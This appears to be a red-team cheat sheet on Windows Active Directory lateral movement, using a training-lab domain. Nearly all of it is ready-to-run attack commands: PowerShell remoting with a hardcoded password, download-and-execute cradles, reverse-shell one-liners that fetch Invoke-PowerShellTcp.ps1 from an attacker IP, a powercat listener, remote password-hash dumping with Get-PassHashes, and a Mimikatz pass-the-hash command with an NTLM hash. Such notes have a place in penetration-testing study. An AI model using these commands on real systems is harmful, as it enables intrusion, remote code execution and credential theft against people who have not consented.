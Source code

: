 # Lateral Movement
> Movement Technique and Remote code execution

# table of content
1. [test](#test)


## Powershell Remoting
Change user

```powershell
$passwd = ConvertTo-SecureString "SuperS3Cr31PAssw0rd!@l33t" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("user", $passwd)
Enter-PSSession -Credential $creds -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
 ```
If you want to save the session
```powershell
$passwd = ConvertTo-SecureString "SuperS3Cr31PAssw0rd!@l33t" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("user", $passwd)
$sess = New-PSSession -Credential $creds
Enter-PSSession -Credential $creds -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
If you dont need a password
```powershell
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
Dont need password with saved session
```powershell
$sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
Enter-PSSession -Session $sess
```

Execution Cradle
```powershell
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')
```

### Invoke Command

Use below to execute commands or scriptblocks:
```powershell
Invoke-Command –Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)
 ```
Use below to execute scripts from files (some script thet wont work can work in this mode)
```powershell
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
```
Use below to execute locally loaded function on the remote machines:
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)
```
In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way:
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
```
In below, a function call within the script is used:
```powershell
Invoke-Command -Filepath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
```
Use below to execute "Stateful" commands using Invoke-Command:
```powershell
$Sess = New-PSSession –Computername Server1
Invoke-Command –Session $Sess –ScriptBlock {$Proc = GetProcess}
Invoke-Command –Session $Sess –ScriptBlock {$Proc.Name}
```
## Technique (user hunting)
```powershell
Find-LocalAdminAccess -Verbose
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

## RCE
```powershell
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1')); Power -Reverse -IPAddress 172.16.100.X -Port 443


powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Power -Reverse -IPAddress 172.16.100.X -Port 443
```
powercat
```powershell
. .\powercat.ps1
powercat -l -v -p 443 -t 100
```
python open file
```bash
python -m SimpleHTTPServer 8080
python3 -m http.server
```

## Pass the hash
PTH with mimikatz --> perform activities as the hash but Windows still think I am the same person
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```